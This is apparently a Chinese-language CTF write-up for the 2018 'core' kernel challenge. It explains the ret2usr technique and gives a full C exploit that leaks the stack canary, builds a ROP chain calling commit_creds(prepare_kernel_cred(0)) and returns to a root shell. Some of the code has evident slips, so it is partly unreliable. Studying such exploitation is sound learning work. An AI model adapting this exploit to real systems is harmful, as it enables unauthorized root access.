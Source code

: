 # Items
[2018 core](./2018_core)
   
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
## 0x00 ret2user(no SMEP/SMAP)
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
我这里的自我理解那就是，在用户态定义了函数调用，然后我们在内核态的时候通过ROP等手法时期直接执行在用户态的代码，这样就实现了在内核态ring0的特权来执行用户代码，实际上还蛮简单的，虽然说这个利用手法在KPTI出现之后很少利用了，但是我毕竟还是刚学，所以还是得了解点的。

---
综上，所以咱们只需要在exp中添加这样一段代码即可：
```
void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```
这里也就是在咱们获得这俩兄弟的地址后在用户程序定义的函数调用，所以咱们只需在ROP中添加这个函数地址使其调用然后通过SWAPGS等系统调用返回用户态即可，以下是成功图！
(是不是很像上此文章的图，兄弟们你们听我狡辩啊不是听我解释，这我真的重新运行的，大伙别说我偷懒)
![](http://imgsrc.baidu.com/super/pic/item/aa64034f78f0f73662139cc34f55b319eac41307.jpg)
1. 通过读取 /tmp/kallsyms 获取 commit_creds 和 prepare_kernel_cred 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 off 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造:
   > 1. kernel rop 通过 内核空间的 rop 链达到执行 commit_creds(prepare_kernel_cred(0)) 以提权目的，之后通过 swapgs; iretq 等返回到用户态，执行用户空间的 system("/bin/sh") 获取 shell
    > 2. ret2usr 做法中，直接返回到用户空间构造的commit_creds(prepare_kernel_cred(0)) （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 ring 0 特权，因此可以正常运行。之后也是通过 swapgs; iretq 返回到用户态来执行用户空间的 system("/bin/sh")
    

从这两种做法的比较可以体会出之所以要 ret2usr，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。（但是据我现在了解最不怕的就是他了(狗头)）
以下是exp：
```
// gcc exp.c -o exp -static -masm=intel -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}


void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}


void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  getchar();
  printf(fd);
  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = (size_t)getRootPrivilige; 
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}
```
